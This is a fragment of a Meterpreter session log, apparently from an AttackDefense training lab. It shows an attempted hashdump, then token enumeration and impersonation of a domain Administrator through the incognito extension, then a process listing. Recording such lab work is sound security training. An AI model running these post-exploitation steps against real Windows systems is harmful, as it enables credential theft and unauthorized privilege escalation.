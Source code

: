 ```
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > incognito -h
[-] Unknown command: incognito
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User                         Path
 ---   ----  ----                     ----  -------  ----                         ----
 0     0     [System Process]
 4     0     System                   x64   0
 68    768   svchost.exe              x64   0
 88    4     Registry                 x64   0
 392   4     smss.exe                 x64   0
 528   768   svchost.exe              x64   0
 556   544   csrss.exe
 580   768   svchost.exe              x64   0
 632   544   wininit.exe              x64   0
 640   624   csrss.exe
 696   624   winlogon.exe             x64   1
 768   632   services.exe             x64   0
 776   632   lsass.exe                x64   0
 788   976   WmiPrvSE.exe
 800   696   dwm.exe
 804   4336  conhost.exe
 840   768   amazon-ssm-agent.exe     x64   0
 888   768   svchost.exe              x64   0
 912   632   fontdrvhost.exe
 920   696   fontdrvhost.exe
 976   768   svchost.exe              x64   0
 992   768   svchost.exe              x64   0
 1036  768   svchost.exe              x64   0
 1084  3748  wscript.exe
```